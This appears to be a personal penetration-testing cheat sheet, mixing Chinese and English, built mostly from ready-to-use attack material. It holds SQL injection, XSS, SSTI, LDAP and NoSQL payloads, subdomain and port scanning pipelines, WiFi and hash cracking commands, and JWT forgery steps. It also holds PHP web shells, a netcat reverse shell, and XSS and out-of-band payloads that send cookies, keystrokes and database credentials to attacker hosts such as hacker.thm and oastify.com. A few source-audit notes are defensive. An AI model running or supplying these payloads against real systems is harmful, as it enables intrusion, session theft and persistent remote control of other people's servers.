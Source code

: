 # 思路
# payloads
'
"
`
')
'))
")
"))
`)
`))
' or 1=1 -- -
' and 1=1 -- -
' and ''='
+AND+1=1'+ — +- 
+AND+1=1'+%23[#]
xxx' union select 1,2,3; -- -
XOR(if(now()=sysdate(),sleep(5),0))XOR
"XOR(if(now()=sysdate(),sleep(5),0))XOR"
'XOR(if(now()=sysdate()%2Csleep(15)%2C0))XOR'Z
XOR(if(now()=sysdate(),sleep(9),0))XOR\"Z
XXX'|(IF((now())LIKE(sysdate()),SLEEP(6),0))|'XXX
' || (select '') || '
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
{{7*7}}
{{url_for.__globals__.os.popen('ls').read()}}
"><svg/onload=prompt(1)>
<script>javascript:alert(1)</script\x0D>
<img src/onerror=prompt(1)>
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
<iframe %00 src=\"javascript:prompt(1)\"%00>
<iframe %00 src= javascript:fetch(\"//XXXXXXXXXXXXXXXXXXXXXXXXXXXXX.burpcollaborator.net/?param=\"+document.cookie)  %00>
"><svg onlod=confirm()>
--><svg onload=alert(document.domain)>
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``¹//
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)> url encode + url encode
"><img src=x onerror=alert(document.cookie)>
<href="url" onmouseover=alert(1)>
<iframe %00 src=\"javascript:prompt(1)\"%00>
</script><script>alert(document.domain)</script> url encode
javascript:var{a:onerror}={a:alert};throw%20document.cookie url encode
<?xml version="1.0"?><!DOCTYPE foo SYSTEM "http://XXXXXXXXXXXXXXXXXXXXXXXXXXXXX.burpcollaborator.net/">

Recon 资产收集
收集子域 sublist3r — subfinder — asset finder — amass - gobuster
amass enum -d target.com -silent -o out.txt
subfinder -d target.com -silent -all -o out.txt
sublist3r -d nasa.gov -o subdomains1.txt
gobuster dns -d target.com -t 100 -w ../../xxx.txt -o out.txt
联合
subfinder -d target.com -silent | waybackurls | httpx -silent -sc | nuclei -o out.txt
naabu -list domains.txt -top-ports 1000 -silent -o naabuout.txt | httpx -silent -o httpxout.txt | aquatone -silent -out capitaloneout
google dork
site:target inurl:*.php?/*.jsp?  保存成.html文件并提取出全部url地址
cat target.html | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u | grep -E "target.com"
过滤活动域名
httpx -l subdomains.txt -o urls.txt
cat subdomains.txt | httprobe | sort -u >> list.txt
收集API 节点
cat urls.txt | httpx -title -sc -server -fr -td -o out.txt
cat list.txt | httpx -title -sc -server -fr -td -o out.txt
cat "toyota.com" | gau --threads 5 >> Enpoints.txt
cat httpx.txt | katana -jc >> Enpoints.txt
katana -l target.txt -jc -kf -aff -c 100 -cs domain.com -hl -d 9 -jsl -ps -pss waybackarchive,commoncrawl,alienvault -o out.txt
python3 lostsec.py -u target.com -p payloads/xor.txt -t 5
paramspider -d target.com -o urls.txt
cat urls.txt | sed 's/FUZZ//g' > final.txt
python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5
echo target.com | gau --mc 200 | urldedupe > urls.txt
cat urls.txt | grep -E ".php|.asp|.aspx|.cfm|.jsp|.html|.htm" | grep '=' | sort > output.txt
cat output.txt | sed 's/=.*/=/' > final.txt
python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5
echo target.com | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | urldedupe > output.txt
katana -u target.com -d 5 | grep '=' | urldedupe | anew output.txt
cat output.txt | sed 's/=.*/=/' > final.txt

API/节点 去重
cat Enpoints.txt | uro >> Endpoints_F.txt
API/节点规则匹配 XSS, SQLi, SSRF, etc
cat Endpoints_F.txt | gf xss >> XSS.txt
XSS自动化工具
cat XSS.txt | Gxss -p khXSS -o XSS_Ref.txt
dalfox file XSS_Ref.txt -o Vulnerable_XSS.txt


Tool #1 — Katana
Using a depth-first strategy: katana -u to-crawl.txt -d 5 -jc -ct 1h -aff -fx -s depth-first -o katana-df.txt
Crawl with a breadth-first strategy: katana -u to-crawl.txt -d 5 -jc -ct 1h -aff -fx -s breadth-first -o katana-bf.txt
Using a headless mode: katana -u to-crawl.txt -d 5 -jc -ct 1h -aff -fx -headless -o katana-headless.txt
Tool #2 — Hakrawler
cat to-crawl.txt | hakrawler -d 5 -dr -insecure -t 10 -timeout 3600 | tee hakrawler.txt
Tool #3 — Gospider
gospider -S to-crawl.txt -q -d 5 -c 10 --sitemap --no-redirect -o gospider.txt

https://search.censys.io/
https://www.shodan.io/
Shodan Dork：
Ssl.cert.subject.cn:"sub.target.com" 200
httpx with the following flags: -sc -td -cl


google / duckduckgo.com
site:blog.intigriti.com csrf
site:pentester.land csrf
site:book.hacktricks.xyz csrf
site:cloud.hacktricks.xyz csrf
site:hackerone.com/reports csrf
site:infosecwriteups.com csrf
site:weekly.infosecwriteups.com csrf
site:portswigger.net Cheatsheet

# nmap
nmap -sn ip/idor
nmap -sS/-sT --min-rate 10000 --max-retries 1 --max-scan-delay 20ms -T4 --open -p- ip -oA path
nmap -sU --top-ports 20 ip -oA path
nmap -sU -sV --version-intensity 0 --min-rate 10000 -p- ip -oA path
grep open path | awk -F '/' '{print $1}' | paste -sd ','
nmap  -sT -sV -sC -O -p+ports ip -oA path
nmap -sS/-sT --script=vuln -p+ports ip -oA path
nmap -sU --top-ports 20 ip -oA path

# service
smb--445---smbmap/smbclient/crackmapexec/enum4linux
nfs--------showmount -e  ip  / mount -t nfs ip:/path  filedir 
ftp---21-----anonymous
rsync---873----    rsync -a "rsyn://99.99.99.99/"  check any directories or files
    rsync 99.99.99.99::gentoo/etc/passwd .
    rsync <destination> <source>
    mkdir .ssh && touch .ssh/authorized_keys
    rsync -r ./.ssh/ 192.168.129.126::fox/.ssh
    rsync -r 192.168.129.126::fox
    


# NO nmap 
linux/bash script
for i in {1..254};do ping -c 1 -w 1 192.168.1.$i | grep from;done

# bypass
example.com  403   dig example.com cname xxxxx.xxxx.com  cname域名/file  bypass 限制


#
![安全编码的输入清理技术](https://github.com/isecren/Security/assets/7948479/6b619965-6874-4d95-a5a0-c0a42f2dc605)

# HTTP 主机标头注入攻击
1提供任意主机标头
2注入重复的 Host 标头
3添加换行
4注入主机覆盖标头
5提供绝对 URL

# wifi crack   aircrack-ng工具包
airmon-ng    airmon-ng <start|stop|check> <interface> [channel or frequency]
airodump-ng  interface
airodump-ng --bssid 28:EF:01:35:34:85 -c 6 --write wpa-01 wlan0
aireplay-ng -0 100 -a 28:EF:01:35:34:85 -c 28:EF:01:23:46:68 wlan0
hashcat 破解wifi密码
.cap文件转hashcat格式.hc22000  https://hashcat.net/cap2hashcat/
hashcat –m 22000 wpa-01.hc22000 rockyou.txt
haschcat –m 2200 –a 3 wpa-01.hc22000 ?l ?l ?l ?l ?l ?l ?l ?l ?l ?l


# Tools
nikto
burpsuite
git-dumper  git-dumper http://example.com/.git/ 输出
Weevely - 武器化的 Web shell  weevely generate <password> <path>/weevely <URL> <password> [cmd]

"><img src=x onerror=alert(document.domain)>{{7*7}}'
User-Agent: () {:;}; /usr/bin/nslookup $(.whoami).myserver.com (It’s used to exploit shellshock vulnerability)

# wordpress
cmsmap -s http://www.domain.com -t 2 -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0"
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url http://www.domain.com [--plugins-detection aggressive] --api-token <API_TOKEN> --passwords /usr/share/wordlists/external/SecLists/Passwords/probable-v2-top1575.txt #Brute force found users and search for vulnerabilities using a free API token (up 50 searchs)
#You can try to bruteforce the admin user using wpscan with "-U admin"

Gau

amass enum -active -d $1 -brute -w ~/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -o amass.txt
HTTP/HTTPS
cat amass.txt | httpx | aquatone -out aqua_$1
IP
cat amass.txt | aquatone -ports xlarge -out aqua_$1
nuclei -l aqua_$1/aquatone_urls.txt -t ~/nuclei-templates -es info -o nuclei_$1.txt
nuclei -u xxx.com -ss host-spray -dast
dnsrecon -d domain.com -t axrf # 区域传送漏洞

httpx 进行HTTP测试
httpx -l allDomains.txt -o liveDomains.txt 
httpx -l liveDomains.txt -srd subsScreens -ss  屏幕截图

模糊测试
当我开始对目录进行模糊测试时，不管状态代码是 200,404 还是 403。大多数时候 Gems 都在这些页面内。
ffuf 工具
模糊测试列表：
/jenkins/script

paramspider/arjun 参数测试
eyewitness 检测url，自动屏幕截图
waybackurls -dates http://xxxx/xxx.php   存档数据
SQL 工具
sqlmap/ghauri
python sqlmap.py -u "https://www.target.com/" --skip-waf --tamper="between,randomcase,space2comment" -v 3 --random-agent --tor
sqlmap -u testphp.vulnweb.com --random-agent --crawl=3 --forms --hostname --current-db --smart



# SQL  PayloadsAllTheThings
'
"
`
')
'))
")
"))
`)
`))
oracle -- 
mssql -- /*comment*/ 
mysql -- /*comment*/ #    
postgresql -- /*comment*/ 
各种字符串连接方法 判断数据库类型
oracle 'hel'||'met'  
mssql 'hel'+'met'  
mysql 'hel' 'met'  concat('hel','met')  
postgresql 'hel'||'met'
oracle  substr('string',4,2)  
mssql/mysql/postgresql  substring('string',4,2)

' or 1=1 -- -
' and 1=1 -- -
' and ''='
+AND+1=1'+ — +- 
+AND+1=1'+%23[#]
xxx' union select 1,2,3; -- -
XOR(if(now()=sysdate(),sleep(5),0))XOR
'XOR(if(now()=sysdate()%2Csleep(15)%2C0))XOR'Z
XOR(if(now()=sysdate(),sleep(9),0))XOR\"Z
XXX'|(IF((now())LIKE(sysdate()),SLEEP(6),0))|'XXX
' || (select '') || '
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'

database
Oracle ==> SELECT banner FROM v$version
Microsoft SQL Server ==> SELECT @@version
PostgreSQL ==> SELECT version()
MySQL ==> SELECT @@version
' UNION SELECT null,SUBSTRING(@@version,1,200) LIMIT 0,1 — MySQL version

' UNION SELECT null,SUBSTRING(@@version,1,200) WHERE row = 1 — MS SQL version

' union select null,substr(banner,1,200) from v$version%20 where rownum=1 — Oracle version

' UNION SELECT null,SUBSTRING(version(),1,200) LIMIT 1 — PostgreSQL version

MySQL & MSSQL:       ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,1))='4'
                    ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,2))='5$$'
Oracle:              ?lugu=316+AND+(SELECT+SUBSTR(version(),1,1)+FROM+DUAL)='4'
                    ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,2))='5$$'
PostgreSQL:          ?lugu=316+AND+(SELECT SUBSTRING(version(), 1, 1) = '4'
                    ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,2))='5$$'
INFORMATION_SCHEMA.SCHEMATA ：是存储数据库元数据的系统目录表。
SCHEMA_NAME ：是该表中存储数据库名称的列。
LIKE 'a%' :是过滤数据库名称的条件，仅返回以字母“a”开头的数据库名称。
AND + ( SELECT + 1 + FROM + INFORMATION_SCHEMA.SCHEMATA + WHERE + SCHEMA_NAME + LIKE + '$a$%' ) %3d1  intruder
SELECT table_name FROM information_schema.tables WHERE table_schema =  'your_database_name' ;
+ AND + ( SELECT + 1 + FROM + INFORMATION_SCHEMA.TABLES + WHERE + TABLE_SCHEMA + %3d + 'your_database_name' + AND + TABLE_NAME + LIKE + 'w%' ;) %3d1


# ssti
{{7*7}}
{{url_for.__globals__.os.popen('ls').read()}}
绕过单引号过滤器
有效负载： {{url_for.__globals__.os.popen(request.headers.hack).read()}}


#权限提升
history
search info:grep -R -i pass /home/* 2>/dev/null
bash version < 4.3
shellshock  check cmd:
env x='() { :; };echo "it is vulnerable"' bash -c date




# out of band 带外数据
select load_file(CONCAT('\\\\',(SELECT+@@VERSION),'.',(SELECT+user),'.',(SELECT+password),'.','v950miufeuuf5qgjf4bzv77v0m6du9iy.oastify.com\\vfw'))
curl `whoami`.yeg3rlzijxziatlmk7g20acy5pbgzbn0.oastify.com
curl $(whoami).yeg3rlzijxziatlmk7g20acy5pbgzbn0.oastify.com



# XSS bypass waf
Basic XSS
<script>alert('XSS');</script>
Encoding and Obfuscation
%3Cscript%3Ealert(%27XSS%27)%3B%3C%2Fscript%3E
Bypassing Advanced Filters with Polyglots
jaVasCript:/*-/*`/*\\\\`/*'/*"/**/(/* */oNcliCk=alert())//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!> <sVg/<sVg/oNloAd=alert()//>\\\\x3e


<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
<iframe %00 src=\"javascript:prompt(1)\"%00>
<iframe %00 src= javascript:fetch(\"//XXXXXXXXXXXXXXXXXXXXXXXXXXXXX.burpcollaborator.net/?param=\"+document.cookie)  %00>
"><svg onlod=confirm()>
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``¹//
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)> url encode + url encode
"><img src=x onerror=alert(document.cookie)>
<href="url" onmouseover=alert(1)>
<iframe %00 src=\"javascript:prompt(1)\"%00>
</script><script>alert(document.domain)</script> url encode
javascript:var{a:onerror}={a:alert};throw%20document.cookie url encode

尝试：
try URL encode
try double URL encode.
try triple URL encode.
try base64 encode.
文件上传 XSS---修改文件名参数以包含 XSS 负载
a) <img src=x onerror=alert('XSS')>.png
b) "><img src=x onerror=alert('XSS')>.png
c) "><svg onmouseover=alert(1)>.svg
d)<<script>alert('xss')<!--a-->a.png



# 原型污染是一种javascript漏洞，攻击者可以将任意属性添加到全局变量原型，然后这些属性可能被用户定义的对象继承。

# jwt 
bypass 绕过验证
CVE-2023-30845 通过使用 X-HTTP-Method-Override 请求标头绕过 JWT 检查！
curl http://example.com/api -X POST -H 'X-HTTP-Method-Override: PUT' -H 'Content-Type: application/json' --data '{"username":"xxx"}'
未经验证的签名--忘记验证签名了
越权漏洞等

签名有验证缺陷--NONE算法 alg->none
jwt_tools.py jwt-token -X a

破解弱共享密码
注意：必须是HMAC-SHA算法
jwt_tools.py jwt_token -C -d jwt_secrets.txt
echo jwt_token > jwt_file
hashcat -a 0 -m 16500 jwt_file  jwt_secrets --force

算法混淆攻击 RSA->HS256
构造jwt
jwt editor keys插件
1、获取公钥 public key
/jwks.json  /.well-known/jwks.json等
2、JWT Editor Keys 点击 NEW RSA KEY，复制jwks.json种key的值到jwk框，点击ok
copy public key as PEM 对其base64编码
3、点击new symmetric key 点generate 并替换K的值为pem编码后的值
4、回到请求体jwt，进行sign签名

标头参数住入
Jwk 注入
jwt editor keys插件
New rsa KEY generate
回到请求体jwt，attack embedded jwk
Jku 
jwt editor keys插件
1、生成一个RSA密钥 copy public key as jwk
2、创建一个webserver URL http://xxxx.xxx/jwk
3、回到请求体jwt，修改kid，添加jku,替换sub
kid 注入
jwt editor keys插件
1、生成new symmetric key generate
2、对称密钥 k值覆盖为null (base64编码)
3、回到请求体jwt，修改kid的值为../../../../../../dev/null
4、修改sub,点击 sign 签名


# LDAP
payload:")(cn=))(|(objectClass=*"
"(&(cn=))(|(uid=))(|(objectClass=*))(userpassword=[password])"
login bypass
user=*
password=*
--->(&(user=*)(password=*))
user=*)(&
password=*)(&
-->(&(user=*)(&)(password=*)(&))
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSE then the user is admin and the password check is True.
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))

# webshell
.htaccess文件
AddType指定
AddType application/x-httpd-php .png
将.png当作php文件解析
木马
上传文件，php扩展文件.phtml .phar .ptar
<?php phpinfo(); ?>
<?php 
@eval($_POST['cmd']);
?>
<?php
@eval($_REQUEST['cmd']);
?>
<?php system("whoami"); ?>
<?php
file_put_contents("shell.php","<?php @eval($_POST['cmd']); ?>");
file_put_contents("shell.php",base64_decode("PD9waHAgCkBldmFsKCRfUE9TVFsnY21kJ10pOyAKPz4="));
?>

#  Kubernetes 
使用kubectl get services --all-namespaces列出集群中的所有服务，然后查找类型为“LoadBalancer”或“NodePort”的服务。
如果您的集群中设置了 Ingress 控制器，您也可以使用此命令kubectl get ingress --all-namespaces
获取Kubernetes 集群中公开的服务
这种错误配置允许通过向节点的 IP 和端口组合发送请求来与反向代理直接通信，完全绕过负载均衡器
curl -i -s -k -X $’GET’ \
-H $’Host: service-1.kube.com’ \
$’https://<NODE-IP:8888>/'
发现敏感服务
1、crt.sh   "k8s.%.com"
2、github
3、端口扫描 Kubernetes 集群中可能会开放以下端口（取自Kubernetes 研讨会演示）：
4、探索网络插件  cAdvisor 
查找集群配置错误
当 Kubernetes API 暴露于远程交互时，此部分非常有用。
1. 检查API服务器的匿名访问
2. 检查ETCD匿名访问
如果ETCD可以匿名访问，您可能需要使用etcdctl工具。以下命令将获取存储的所有密钥：
etcdctl –endpoints=http://<MASTER-IP>:2379 get / –prefix –keys-only
3、检查Kubelet（只读端口）信息暴露情况

# bypass waf
alert = window[“al”+“ert”]。通过将“alert”关键字分成两部分并使用串联，我们可以避开 WAF 可能使用的简单关键字过滤器
用这个 `` 绕过括号 ()
用正斜杠 (/) 替换空格。此更改有助于避免 WAF 过滤器检测到可能寻找特定字符组合的情况
对符号进行编码是绕过 WAF 保护的重要组成部分。以下是该技术中使用的符号编码：
< 编码为 %3c
> 编码为 %3e
“ 编码为 %22
[ 编码为 %5b
] 编码为 %5d
` 编码为 %60
未编码有效负载：<svg/onload=window[“al”+”ert”]`1337`>

# IDOR 不安全直接对象引用
需要两个账号进行测试

# 敏感信息泄露
1、发现敏感信息-key
2、进行 Google 搜索 使用键名后跟术语“api docs curl”进行 Google 搜索，发现API接口

# SSTI 
payload: {{7*7}} 得到结果49 证明存在
读取etc/passwd  {{system('cat /etc/passwd')}}

路径遍历的根本原因是缺乏路径规范化
os.path.normpath(path).startswith("/app/resources")
注入漏洞的根本原因在于将数据视为代码
将数据与代码分离并对输入执行上下文转义。这种技术的一个主要例子是参数化查询。它隔离数据库查询的输入并执行转义




# 源码审计
SonarQube 这样的工具
XSS:
grep -Ri "\$_" . | grep "echo"
grep -Ri "\$_GET" . | grep "echo"
grep -Ri "\$_POST" . | grep "echo"
grep -Ri "\$_REQUEST" . | grep "echo"

Command execution:
grep -Ri "shell_exec(" .
grep -Ri "system(" .
grep -Ri "exec(" .

Code execution:
grep -Ri "eval(" .
grep -Ri "assert(" .
grep -Ri "preg_replace" . | grep "/e"

SQL Injection:
grep -Ri "\$sql" .
grep -Ri "\$sql" . | grep "\$_"

RFI/LFI:
grep -Ri "file_include" .
grep -Ri "include(" .
grep -Ri "require(" .
grep -Ri "include_once(" .
grep -Ri "require_once(" .
grep -Ri "require_once(" . | grep "\$_"

# nosql
{"username":"carlos","password":{"$ne":""},"$where":"Object.keys(this)[0].match('^.{§0§}§a§.*')"}
{"username":"carlos","password":{"$ne":""},"$where":"Object.keys(this)[1].match('^.{§0§}§a§.*')"}
{"username":"carlos","password":{"$ne":""},"$where":"this.resetToken.match('^.{§0§}§a§.*')"}



import pty
pty.spawn("/bin/bash")
pe 提权
suid 
ps -aux | grep root
<?php system("nc ip port -e /bin/bash")?>
hashcat / john the ripper
hashcat -m 0 hashcat.txt rockyou.txt  字典攻击
hashcat -a 3 -m 0 hashcat.txt ?a?a?a?a?a?a  蛮力破解 6个小写字母
hashcat -m 0 hashcat.txt rockyou.txt -o crack_password.txt 输出到文件crack_password.txt
flipper zero 一款小型手持设备，将各种硬件工具的功能整合到一个口袋大小的小工具中。
flipper zero 多协议支持  rfid nfc 红外 蓝牙
web缓存中毒/缓存欺骗
缓存位于服务器和用户之间，它保存特定请求的响应
URL: /MyAccount;var1=val → Path: /MyAccount

URL: /hello;var=a/world;var1=b;var2=c → Path: /hello/world
URL: /MyAccount.html → Path: /MyAccount (default HTML view)

URL: /MyAccount.css → Path: /MyAccount (CSS view or error if not present)

URL: /MyAccount.aaaa → Path: /MyAccount (default HTML view)
URL: /MyAccount%00aaa → Path: /MyAccount
Rule: rewrite /user/(.*) /account/$1 break;
URL: /users/MyAccount%0aaaa → Path: /account/MyAccount
Detecting origin delimiters
Detecting cache delimiters
GET /static-endpoint<DELIMITER><Random>
"/myAccount%3Fparam" → "/myAccount?param"
/home/index → /%68%6f%6d%65%2f%69%6e%64%65%78
GET /home/index?cacheBuster

GET /aaa/../home/index?cacheBuster or GET /aaa\..\home/index?cacheBuster
![image](https://github.com/user-attachments/assets/7cf1e8db-3ad5-415d-a9c5-9dc6e25a4c99)
![image](https://github.com/user-attachments/assets/d5873bcd-44ad-45ba-9966-91bcb18bb117)
![image](https://github.com/user-attachments/assets/2385c2b3-df86-4b2b-a8fc-078e71beebe9)
![image](https://github.com/user-attachments/assets/86d31c2d-5676-412f-92bf-c73bb98b351a)
/static
/assets
/wp-content
/media
/templates
/public
/shared
GET /<Dynamic_Resource><Delimiter><Encoded_Dot_Segment><Static_Directory>
![image](https://github.com/user-attachments/assets/a5f1626c-9105-4a5f-bf4c-7c09bfb4a5ca)
GET /<Static_Directory><Encoded_Dot_Segment><Dynamic_Resource>
![image](https://github.com/user-attachments/assets/a068ae91-9d6d-46a2-8910-311a3d971117)
![image](https://github.com/user-attachments/assets/d5fa6590-6946-4ee6-95ca-7e483270e8dd)
GET /<Dynamic_Resource><Delimiter><Encoded_Dot_Segment><Static_File>
![image](https://github.com/user-attachments/assets/43cdadf2-26d3-4ab6-a9b1-23c550ee195a)
GET /<Backend_Path><Path_Traversal><Poisoned_Path>
![image](https://github.com/user-attachments/assets/4c14ebae-5b48-4671-a2bd-6b4f5d8b5ae7)
GET /<Backend_Path><Delimiter><Path_Traversal><Poisoned_Path>
![image](https://github.com/user-attachments/assets/3f4db0b1-b0bb-40c8-a2af-063d4b97bffb)
![image](https://github.com/user-attachments/assets/1adc4181-57d1-43da-8a7b-195e31a5d7e7)
GET /<Poisoned_Path><Front-End_Delimiter><Path_Traversal><Backend_Path>












burp suite param miner 
find 未键入的标头
x-forwarded-host: burpclist html注入
nmap 信息收集
gobuster dir -u url -w medium.txt
源代码  javascript
默认密码  admin admin admin password
cms exploit-db 找cms漏洞
github 找是否开源  分析源代码 和配置文件
mysql -u user -p password -h ip
找到管理后台的用户名和密码 更新管理员的密码为自己的密码
使用用户名和新的密码登陆管理后台
在利用exploit-db中的漏洞上传php reverse shell
攻击机上nc -lnvp port  获取web shell
pe 提权
python3 -c 'import pty;pty.spawn("/bin/bash")'
sudo -l 列出当前用户可以提升的权限运行的允许的命令
all:all all
sudo /bin/sh
whoami
root
邀请新成员业务逻辑
错误配置 在用户接受邀请之前，成员数量不会增加 我们可以先将邀请链接发送给10位成员，然后接受所有成员
无计划用户可以邀请成员
拦截将可以邀请用户的API信息修改成普通用户的，发送成功，邀请用户成功
创建浏览器配置文件时的竞争条件
burp suite turbo intruder  添加一个随机位置作为有效载荷位置并增加线程
低权限用户可以通过API查看工作区数据  越权
原始IP地址泄露造成绕过防火墙
wazuh开源安全信息和事件管理工具（SIEM）
aws/s3存储桶的子域
subfinder 侦察子域工具
subzy 检查子域名签名 aws情况下 签名将是指定的存储桶不存在

john the ripper 多功能开源密码破解工具 旨在通过各种攻击方法破解弱密码
john hashed_passwords.txt
john --wordlist=单词列表文件 密码文件
john --incremental 密码文件
john --wordlist=单词列表文件 --rules 密码文件
john --wordlist=rockyou.txt hashed_passwords.txt
john --incremental hashed_passwords.txt
john --wordlist=rockyou.txt --rules hashed_passwords.txt
dos 登陆部分 password 长度  长密码 10000 在服务器上计算密码的哈希值 
for x in range(50000,500000,10000):
    print("a"*x)
判断响应时间是否存在延迟
其它地方
注册页面 长密码
忘记密码 长密码
修改密码 长密码
更改密码 长密码
google cloud armor 是web应用防火墙
pdf html 注入中ssrf的利用
ssrf完全读取和盲读取
hydra
http-post-form
http-get-form
hydra -l 用户名 -P 密码列表 ip/url http-post-form "/登录页面地址:登录请求:F=错误消息"
hydra -l 用户名 -P 字典 ip -t 4 ssh
wdms web的数据主控系统 先进的中间件
<svg/onload=alert(document.location)>


#  grafana 漏洞
http://x.x.x.x:3000/api/plugins?embedded=0

